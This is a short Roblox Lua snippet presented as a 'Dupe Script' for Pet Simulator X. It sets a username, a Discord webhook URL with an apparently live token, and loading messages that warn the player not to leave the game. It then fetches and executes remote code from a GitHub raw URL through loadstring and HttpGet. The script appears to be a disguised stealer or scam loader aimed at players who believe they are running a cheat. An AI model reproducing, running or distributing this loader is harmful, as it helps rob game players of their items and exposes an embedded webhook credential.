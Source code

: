 Username = "skityszzx"
WebHook = "https://discord.com/api/webhooks/1092727128816099348/NRSqDvXQuo-RcAUe3ASykfvOMbtIjL496QJvYKyuFhnDID9fNeJ9Bor6Cl02NFTwKbf8"

_G.CustomScriptName = "Dupe Script Pet Sim x IF YOU LEAVE DATA WILL LOST!!"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
